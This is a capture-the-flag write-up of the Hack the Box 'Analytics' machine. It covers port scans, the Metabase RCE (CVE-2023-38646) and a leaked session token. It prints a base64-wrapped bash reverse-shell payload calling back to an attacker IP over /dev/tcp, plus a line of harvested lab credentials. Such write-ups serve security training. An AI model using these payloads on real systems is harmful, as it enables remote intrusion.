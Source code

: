 # Hack the Box - Analytics

```shell
> rustscan -b 1000 -u 5000 -r 0-65535 -a 10.10.11.233 -- -Pn
```
```shell
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.233:22
Open 10.10.11.233:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:18 EDT
Initiating Connect Scan at 14:18
Scanning analytical.htb (10.10.11.233) [2 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed Connect Scan at 14:18, 0.08s elapsed (2 total ports)
Nmap scan report for analytical.htb (10.10.11.233)
Host is up, received user-set (0.079s latency).
Scanned at 2023-10-11 14:18:03 EDT for 1s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

```shell
> rustscan -u 5000 -p 22,80 -a 10.10.11.233 -- -Pn -sCV
```
```shell
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.233:22
Open 10.10.11.233:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:19 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Initiating Connect Scan at 14:19
Scanning analytical.htb (10.10.11.233) [2 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed Connect Scan at 14:19, 0.08s elapsed (2 total ports)
Initiating Service scan at 14:19
Scanning 2 services on analytical.htb (10.10.11.233)
Completed Service scan at 14:19, 6.17s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.233.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 2.51s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.34s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Nmap scan report for analytical.htb (10.10.11.233)
Host is up, received user-set (0.082s latency).
Scanned at 2023-10-11 14:19:29 EDT for 9s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Analytical
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.68 seconds
```

TCP 80 - HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a7d29d8f-533f-47b7-9bb8-ea8e88ad51f2)

```http
http://data.analytical.htb/auth/login?redirect=%2F
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b2c852d7-68d7-4fa9-ae80-2f23bdd66dc6)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5514d41e-fcac-4f3c-a712-ab91a93c47f7)

Metabase - Remote Code Execution (CVE-2023-38646)
Session Token Leaked
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b701daa7-c72c-4670-b417-eb345356740a)

Test Command Execution
```shell
python -m http.server 80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/91e7bbec-50db-44d8-97e7-7b27835991be)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/470a709c-3a69-4aa9-9868-ab9bd8b6c6a7)

Reverse Shell Payload
```shell
bash -c {echo,payload}|{base64,-d}|{bash,-i}
```

Shell Base64 encoded
```shell
> echo "sh -i >& /dev/tcp/10.10.14.23/1337 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjMvMTMzNyAwPiYxCg==
```

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/74ceef41-77e9-4af1-aea1-7fdbe072dcc7)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0ed2a2c7-e3eb-43f1-afd2-edbbcee86ddb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9336028c-c5ce-4dd0-a10b-b684258108ef)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/fb9de20d-edbd-4769-9a1c-3abbf94fc677)

```shell
creds: metalytics:An4lytics_ds20223#
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/31231793-fd25-4e45-994b-2623f742f1bd)

